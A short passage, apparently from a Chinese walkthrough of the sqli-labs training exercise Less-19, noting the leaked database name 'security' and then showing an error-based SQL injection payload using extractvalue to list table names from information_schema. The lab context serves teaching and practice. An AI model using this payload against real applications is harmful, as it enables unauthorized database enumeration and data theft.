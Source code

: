 爆出的库名是<code>security</code>



+ 爆数据表名

~~~ shell
'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '
~~~

![Less-19_3](./img/Less-19_3.PNG)
